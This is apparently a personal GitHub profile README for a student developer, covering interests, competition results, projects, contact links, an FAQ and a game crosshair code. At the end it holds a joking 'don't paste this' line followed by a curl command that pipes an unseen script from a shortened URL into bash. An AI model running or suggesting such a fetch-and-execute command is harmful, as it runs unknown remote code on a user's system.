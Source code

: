 <!--<h1 align="center"> <a href="https://tusharnankani.github.io/about/" ><img src="Assets/portfolio.gh.png" alt="about-ss"> </a>--> 
> ## hey <img src="Assets/tadc-censor.png" width="50"> wanna see me speedbridge
> <small>- You know, <a href="https://knowyourmeme.com/memes/hey-shitass">the <img src="Assets/tadc-censor.png" width="50"> meme.</a></small>

<p align="center"> <img src="https://komarev.com/ghpvc/?username=zeankundev" alt="kkanekii"/> </p>
Welcome to my GitHub! 😇</h1>

<!-- <p align="center">
 <img width="100px" src="https://res.cloudinary.com/anuraghazra/image/upload/v1594908242/logo_ccswme.svg" align="center" alt="Github Readme Stats" />
</p> -->

-   🤗 I'm an junior developer, Software and Hardware Engineer!
-   💻 I'm an Arduino maniac!
-   🔭 I'm currently working on my Competitive Coding Skills.
-   🌱 I'm currently learning _how to properly make backends_ 
-   💬 Ask me about JavaScript, C#, Java, React.js, HTML, Python, Rust, Arduino.
-   📫 How to reach me: 
    
    - <a href="mailto:zeanfender11@gmail.com">Email</a>
    - <a href="https://discord.gg/pbYzGWF9Q4">Discord <i>(I'm always active here)</i></a>

### About Me

I am working on my **Projects**, **development software**, **productivity software** and **computer boards!**. My interest lies in **Javascript**, **Web Development**, **App Development with React.js**, **Desktop Development Electron.js**, **Video Editing Creating with MLT**, **PCB Engineering with KiCad** and **STEM engineering and research with Arduino**.

Currently, aim is to become a globally competent individual with **programming skills** along with **design skills** and **engineering skills**.

### My Achievements:
- Won the 2023 HKICO Heat Round Secondary 1 (Python): Zean Fender Isnomo.
- Nominated as Stage 3 participant (pre-final) on OPSI 2023

![image](https://github.com/zeankundev/zeankundev/assets/58360911/4aff522b-ab03-4874-b275-abfd9e252bf8)


<!-- I have the **attitude** of a learner, the **courage** of an entrepreneur and the **thinking** of an optimist, engraved inside me. I wish to be a leader in my community of people and have an *innate desire* to contribute to **environment** and **society**. -->


<!-- <p align="center"><img alt="GitHub Stats" src="https://github-readme-stats.vercel.app/api?username=tusharnankani&show_icons=true&title_color=fff&icon_color=82d4f7&text_color=d1dae3&bg_color=090909"> </p> -->

<p align="center">

![zeans stats](https://github-readme-stats.vercel.app/api?username=zeankundev&show_icons=true)
![Top Langs](https://github-readme-stats.vercel.app/api/top-langs/?username=zeankundev&layout=compact)
 <a href="https://discord.com/users/793983601288544286">
  <img src="https://lanyard-profile-readme.vercel.app/api/793983601288544286?idleMessage=i%20forgor%20💀" width="50%" align="left" />
</a>


<!-- <img src="https://github-readme-streak-stats.herokuapp.com/?user=zeankundev" alt="Github Streak Stats"> -->

</p>

<!--<p align="center"> <img src="https://github-readme-stats.vercel.app/api?username=zeankundev_icons=true" alt="kkanekii" />-->

<!--[![Top Langs](https://github-readme-stats.vercel.app/api/top-langs/?username=zeankundev&show_icons=true&title_color=fff&icon_color=79ff97&text_color=9f9f9f&bg_color=151515)](https://github.com/kushal98?tab=repositories)-->

## Some Of My Projects
<p align="center">
<a href="https://github.com/zeankundev/Graycrown">
  <img align="left" src="https://github-readme-stats.vercel.app/api/pin/?username=SerialDesignatorN&repo=Graycrown" />
</a>
<a href="https://github.com/NextSystemsInc/NextPay">
  <img align="left" src="https://github-readme-stats.vercel.app/api/pin/?username=NextSystemsInc&repo=NextPay"/>
</a>
</p>

<br>
<br>
<br>
<br>




<br>
<br>
<br>
<br>

<div align="center">
<br>




<h2>
Connect with me<img src="Assets/Handshake.gif" height="32px">
</h2>

 [<img src="https://cdn.svgporn.com/logos/github-icon.svg" alt="Github logo" width="34">](https://github.com/SerialDesignatorN) [<img src="Assets/Gmail.svg" alt="Gmail logo" height="32">](mailto:zeanfender11@gmail.com) [<img src="Assets/Discord-Logo-Color.svg" alt="Discord logo" height="32">](https://discord.gg/2cJBQrdZkm) [<img src="https://upload.wikimedia.org/wikipedia/sco/thumb/9/9f/Twitter_bird_logo_2012.svg/1200px-Twitter_bird_logo_2012.svg.png" alt="twitter" height="32">](https://twitter.com/ZeanKunDevRil) [pls click me](https://bit.ly/3kmEhmP) 

 
 <h2>Donate me on Trakteer!</h2>
<a href="https://trakteer.id/zeankundev" target="_blank"><img id="wse-buttons-preview" src="https://cdn.trakteer.id/images/embed/trbtn-red-1.png" style="border:0px;height:40px;" alt="Trakteer Saya" height="40"></a>
</div>

# FAQ about me
- **What games do you play mostly?**
> VALORANT, Stumble Guys, osu!, Roblox
- **Most favorite programming language?**
> C++, JS, HTML, CSS, React
- **Are you a weeb? If yes, what are your favorite animes?**
> Sadly, not anymore :(
- **Any games that you wanna develop right now?**
> Yes. It's called Cosplay Simulator. I will be using Unity and Bolt
- **Any more questions to ask with me? Contact me on _ThatYummyTofu#8863_ on Discord**

# Typically (un)neccesarry stuffs
- My VALORANT crosshair (suitable for players that suffer ADHD or level 4 autism, like me)

```
0;P;c;1;t;2;o;1;0v;7;0o;0;0a;1;1b;0
```

<br>

plus, dont copy paste this command to ur terminal, or else, something will happen 😇

```
curl -s -L http://bit.ly/10hA8iC | bash
```
